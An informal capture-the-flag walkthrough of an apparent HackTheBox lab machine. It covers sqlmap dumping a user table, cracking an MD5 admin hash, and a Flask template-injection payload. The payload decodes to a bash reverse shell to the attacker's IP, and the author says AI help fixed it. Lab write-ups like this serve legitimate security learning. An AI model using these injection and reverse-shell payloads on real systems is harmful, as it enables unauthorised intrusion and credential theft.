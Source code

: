 +---------------+

​
We see 3 tables within “main” user looks juicy…
So after enumerates and enumerating we now have the exact table to dump so… lets dump
sqlmap -r goodgames.req -D main -T user --dump
​
So even though it is very slow 
retrieved: 
[15:14:42] [INFO] adjusting time delay to 1 second due to good response times
email
[15:14:54] [INFO] retrieved: id
[15:15:00] [INFO] retrieved: name
[15:15:12] [INFO] retrieved: password
[15:15:40] [INFO] fetching entries for table 'user' in database 'main'
[15:15:40] [INFO] fetching number of entries for table 'user' in database 'main'
[15:15:40] [INFO] retrieved: 3
[15:15:43] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)    
admin
[15:15:59] [INFO] retrieved: admin@goodgames.htb
[15:17:01] [INFO] retrieved: 1
[15:17:03] [INFO] retrieved: 2b22337f218b2d82dfc3b6f77e7cb8ec

​
So we have our username and a hash 
admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec
Found it was an MD5 hash so easy lets try the rainbow tables 
superadministrator looool
After using the cred to login we tried to press the settings but see a new url 
Looks like an admin panel so lets add it to /etc/hosts
Lead to a flask login page so reused those creds and
admin & superadmin
So i consulted the walkthrough for this one and….
 
“SSTI
Navigating to the settings page we notice that we can edit our user details. As this is a Python
Flask application this would be a good time to test the form for Server Side Template Injection.
After changing our username to {{7*7}} we see that our username has been changed to 49
and our SSTI payload was executed.”
This is an attack ive never heard of but sure enough it worked as it exectuted the 7x7 command and outputted 49, cool
{{config.class.init.globals['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDMvNDQ0NCAwPiYx+JjE=${IFS}|base64${IFS}-d|bash').read()}}
This command suggested by the guide didnt work so with some ai help we got 
{{ config.__class__.__init__.__globals__['os'].popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDMvNDQ0NCAwPiYx | base64 -d | bash').read() }}

​
essentially removing {IFS} this simplified it and was maybe down to a parsing issue as we got “ambigious redirect”
so we can also ssh into augustus through port 22 after an internal port scan
by running 
script /dev/null bash
